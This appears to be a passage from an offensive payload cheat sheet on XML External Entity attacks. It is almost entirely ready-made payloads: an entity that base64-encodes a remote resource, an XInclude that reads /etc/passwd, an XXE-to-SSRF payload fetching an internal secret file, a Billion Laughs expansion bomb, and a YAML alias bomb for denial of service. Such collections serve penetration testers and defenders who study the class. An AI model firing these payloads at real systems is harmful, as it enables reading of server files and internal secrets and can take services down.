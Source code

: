 ```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "php://filter/convert.base64-encode/resource=http://10.0.0.3" >
]>
<foo>&xxe;</foo>
```

### XInclude attacks

When you can't modify the **DOCTYPE** element use the **XInclude** to target 

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

## Exploiting XXE to perform SSRF attacks

XXE can be combined with the [SSRF vulnerability](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery) to target another service on the network.

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "http://internal.service/secret_pass.txt" >
]>
<foo>&xxe;</foo>
```


## Exploiting XXE to perform a deny of service

:warning: : These attacks might kill the service or the server, do not use them on the production.

### Billion Laugh Attack

```xml
<!DOCTYPE data [
<!ENTITY a0 "dos" >
<!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
<!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
<!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
<!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
]>
<data>&a4;</data>
```

### Yaml attack

```xml
a: &a ["lol","lol","lol","lol","lol","lol","lol","lol","lol"]
b: &b [*a,*a,*a,*a,*a,*a,*a,*a,*a]
c: &c [*b,*b,*b,*b,*b,*b,*b,*b,*b]
d: &d [*c,*c,*c,*c,*c,*c,*c,*c,*c]
e: &e [*d,*d,*d,*d,*d,*d,*d,*d,*d]
f: &f [*e,*e,*e,*e,*e,*e,*e,*e,*e]
g: &g [*f,*f,*f,*f,*f,*f,*f,*f,*f]
h: &h [*g,*g,*g,*g,*g,*g,*g,*g,*g]
i: &i [*h,*h,*h,*h,*h,*h,*h,*h,*h]
```
